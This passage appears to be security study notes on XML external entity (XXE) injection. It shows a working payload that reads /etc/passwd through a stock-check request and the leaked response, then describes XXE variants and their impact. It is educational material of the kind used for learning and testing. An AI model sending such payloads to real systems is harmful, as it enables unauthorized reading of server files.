 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
* Response
```xml
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2292
"Invalid product ID:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:6c0:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```

### Types of XXE Injection

#### In-Band XXE Injection
* Occurs when the attacker can receive a direct response on the screen to the XXE payload
#### Out-Of-Band XXE Injection
* Occurs when the attacker does not receive a direct response on the screen to the XXE payload. Instead, the attacker triggers the response to be sent to an out-of-band attacker-controller server
#### Error XXE Injection
* Occurs when the attacker can infer the response of the XXE payload based on manipulating the application to generate an error

### Impact Of XXE Injection vulnerabilities
* Unauthorized access to the application
    * <b>C</b>onfidentiality - Allows you to read files on the system
    * <b>I</b>ntegrity - Usually not affected unless you escalate the XXE attack to compromise the underlying server
    * <b>A</b>vailability - Allows you to perform a denial-of-service (DoS) attack, referred to as an XML bomb or a billion laughs attack
---
## How To Find XXE Injection?
